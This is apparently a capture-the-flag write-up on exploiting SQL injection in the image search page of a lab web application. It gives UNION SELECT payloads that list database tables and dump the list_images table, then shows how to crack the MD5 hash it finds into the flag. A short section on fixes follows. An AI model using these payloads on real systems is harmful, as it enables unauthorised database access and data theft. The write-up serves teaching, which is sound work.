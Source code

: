 # 05-SQL_Image_Search

The image search is vulnerable to sql injections

## The approach

- Go to http://192.168.42.238/?page=searching

- On the search field, type `1 AND 1=1`and press search button 

- Type this union command on the filed: `-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()`. this returns table name which is list_images.

- type on the field ` -1 union select NULL, concat (id, url, title, comment) from list_images`. this returns  images from the table.

- from the results you get ( " If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 " decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result )

- copy this 1928e8083cf461a51303633093573c46 to a md5 decoder then get the albatroz result to sha256 to get the flag.

## The Exploit #

Users can exploit and destroy sensitive information on your database

## The solution

- Use prepared statements in the backend to prevent sql injections 
- Send form as post request
- try and catch methods should prevent charecters like (', <, ", ?) images shouldnt begin with that type of name.

## Resources

https://www.md5online.org/md5-decrypt.html  
sha256-hash-generator/ 

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#InlineSamples